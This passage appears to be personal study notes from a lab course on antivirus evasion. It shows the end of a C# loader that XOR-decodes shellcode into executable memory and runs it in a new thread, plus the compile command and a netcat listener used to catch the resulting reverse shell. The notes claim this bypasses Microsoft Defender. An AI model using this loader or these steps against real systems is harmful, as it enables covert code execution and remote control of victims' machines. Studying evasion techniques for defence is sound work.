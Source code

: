 ```csharp

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

- Note that we have merely combined a couple of really simple techniques that were detected when used separately.
- Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

		- This shows that the Attacker has done the pre-work.
		- It has done encrypting and encoding the actual shellcode BEFORE it giving to the Stageless payload to be sent to the victim's machine.
		- It also decrypts the shellcode in there.

<u>Compilation of the Stageless payload</u>:

`C:\> csc.exe EncStageless.cs`

- Before running the Stageless payload, let's setup a listener in the attacker's machine:

```shell-session
user@AttackBox$ nc -lvp 443
```

<u>Output</u>:

![](/assets/img/Pasted image 20230114161544.png)

	- Got the shell!
	- Be wary of the architecture of the payload. (Heaven's Gate all over again)

**Did it bypass Microsoft Defender?**

![](/assets/img/Pasted image 20230114161622.png)

	- Yes!

----
# Packers

- Another method of preventing the payload from touching the disk is by the use of a packer.
- **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same.
- Packets do this with `two goals` in mind:
